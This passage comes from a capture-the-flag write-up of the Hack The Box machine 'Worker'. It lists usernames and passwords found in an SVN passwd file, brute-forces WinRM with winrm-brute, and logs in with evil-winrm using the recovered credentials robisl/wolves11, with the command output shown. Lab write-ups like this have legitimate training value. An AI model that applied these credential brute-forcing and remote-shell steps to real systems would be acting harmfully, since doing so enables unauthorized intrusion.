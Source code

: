 ```text
ranhut = getting
rebhyd = rediculous
reeinc = iagree
reeing = tosomepoint
reiing = isthisenough
renipr = dummy
rhiire = users
riairv = canyou
ricisa = seewhich
robish = onesare
robisl = wolves11
robive = andwhich
ronkay = onesare
rubkei = the
rupkel = sheeps
ryakel = imtired
sabken = drjones
samken = aqua
sapket = hamburger
sarkil = friday
```

In the folder `W:\svnrepos\www\conf` there was a file `passwd` that contained a list of usernames and passwords. This looked like a good time to brute force WinRM

### Port 5985 - WinRM

[https://github.com/mchoji/winrm-brute](https://github.com/mchoji/winrm-brute)

used `winrm-brute` to cycle through the list of usernames and passwords

```text
[SUCCESS] user: robisl password: wolves11
```

Retrieved the password for one of the users `robisl`

```text
┌──(zweilos㉿kali)-[~/htb/worker/winrm-brute]
└─$ evil-winrm -u robisl -p wolves11 -i 10.10.10.203                                      

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\robisl\Documents> whoami /all

USER INFORMATION
----------------

User Name     SID
============= ==============================================
worker\robisl S-1-5-21-3082756831-2119193761-3468718151-1330


GROUP INFORMATION
-----------------

Group Name                             Type             SID                                            Attributes
====================================== ================ ============================================== ==================================================
Everyone                               Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
WORKER\Production                      Alias            S-1-5-21-3082756831-2119193761-3468718151-1018 Mandatory group, Enabled by default, Enabled group
```